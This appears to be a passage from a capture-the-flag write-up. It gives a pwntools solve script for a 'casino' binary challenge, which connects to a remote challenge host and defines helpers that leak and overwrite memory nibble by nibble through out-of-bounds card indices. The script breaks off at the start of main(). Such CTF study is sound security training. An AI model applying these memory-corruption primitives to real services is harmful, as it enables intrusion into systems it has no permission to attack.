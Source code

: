 The final solve script is:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./casino_patched")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
# context.log_level = 'debug'

def conn():
    if args.LOCAL:
        if args.GDB:
            r = gdb.debug([exe.path])
        else:
            r = process([exe.path])
    else:
        r = remote("20.84.72.194", 5004)

    return r


def read64(r, offset):
    result = 0x0
    shift = 0
    for i in range(offset, offset+16):
        # view a card
        r.sendlineafter(b'option: ', b'1')
        r.sendlineafter(b'view? ', str(i).encode())
        value = int(r.recvline().split(b'(')[-1].strip()[2:-1], 16)
        result |= (value << (shift ^ 4))
        shift += 4
    return result


def write64(r, offset, target):
    i = offset
    shift = 0
    while i != offset + 16:
        if (target >> (shift ^ 4)) & 0xf == 0:
            print('bad')
            i += 1
            shift += 4
            continue
        # WE GAMBLE
        r.sendlineafter(b'option: ', b'2')
        r.sendlineafter(b'replace? ', str(i).encode())
        value = int(r.recvline().split(b'(')[-1].strip()[2:-1], 16)
        # reset game state
        r.sendlineafter(b'option: ', b'4')
        r.sendlineafter(b'option: ', b'1')
        if (target >> (shift ^ 4)) & 0xf == value:
            print(i, value)
            i += 1
            shift += 4


def main():
    r = conn()
    r.sendlineafter(b'name: ', b'meow')

```
